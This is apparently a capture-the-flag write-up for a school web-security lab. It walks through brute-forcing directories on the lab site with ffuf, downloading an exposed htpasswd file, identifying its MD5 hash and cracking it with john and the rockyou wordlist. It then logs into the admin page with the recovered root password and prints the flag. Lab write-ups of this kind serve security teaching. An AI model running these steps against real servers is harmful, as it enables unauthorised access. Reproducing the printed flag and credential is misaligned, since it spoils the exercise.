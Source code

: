 # Bruteforcing directories
- a method used to uncover potentially sensitive or unsecured content by guessing paths that might exist on the server
- involves systematically trying different directory and file names on a web server to discover hidden or unlisted resources
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web

<b>keywords</b>: admin (htpasswd)<br>
<b>attacked site</b>: http://borntosec.42/

## Exploit
First, we add the site IP address to the known hosts:
``` shell
└─$ sudo nano /etc/hosts
192.168.56.106  borntosec.42
```
Now we run the <code>ffuf</code> tool to discover any subdirectories on the site:
``` shell
└─$ ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://borntosec.42/FUZZ -mc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://borntosec.42/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 301
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 17ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 6ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 9ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 3ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 16ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 6ms]
:: Progress: [951/951] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
Accessing the <code>/whatever</code> subdirectory, we find a file that we can download:
``` shell
└─$ cat htpasswd           
root:437394baff5aa33daa618be47b75cb49
```
This file likely contains login credentials for the <code>/admin</code> subdirectory. We use <code>hash-identifier</code> to determine the hashing algorithm used:
``` shell
└─$ hash-identifier                  
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 437394baff5aa33daa618be47b75cb49

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
With this knowledge, we crack the password using <code>john</code>:
``` shell
└─$ john htpasswd_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty123@       (?)     
1g 0:00:00:00 DONE (2024-08-07 20:14) 1.886g/s 8375Kp/s 8375Kc/s 8375KC/s qwerty666666..qwertsss111
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
We then navigate to <code>http://borntosec.42/admin/</code> and log in with 'root' and 'qwerty123@'. This displays the flag:
```
The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
```

## Flag
d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
